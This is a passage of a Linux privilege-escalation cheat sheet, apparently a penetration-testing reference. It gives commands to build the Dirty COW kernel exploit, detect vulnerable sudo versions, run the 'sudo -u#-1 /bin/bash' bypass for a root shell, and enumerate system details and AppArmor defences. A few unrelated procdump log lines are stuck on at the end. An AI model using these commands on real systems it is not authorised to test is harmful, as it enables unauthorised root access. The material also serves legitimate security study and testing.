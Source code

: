Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### Sudo version

Based on the vulnerable sudo versions that appear in:

```
searchsploit sudo
```

You can check if the sudo version is vulnerable using this grep.

```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

#### sudo < v1.28

From @sickrov

```
sudo -u#-1 /bin/bash
```

### Dmesg signature verification failed

Check smasher2 box of HTB for an example of how this vuln could be exploited

```
dmesg 2>/dev/null | grep "signature"
```

### More system enumeration

```
date 2>/dev/null #Date
(df -h || lsblk) #System stats
lscpu #CPU info
lpstat -a 2>/dev/null #Printers info
```

## Enumerate possible defenses

### AppArmor

```
if [ `which aa-status 2>/dev/null` ]; then
    aa-status
  elif [ `which apparmor_status 2>/dev/null` ]; then
    apparmor_status
  elif [ `ls -d /etc/apparmor* 2>/dev/null` ]; then
    ls -d /etc/apparmor*
  else
    echo "Not found AppArmor"
fi
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714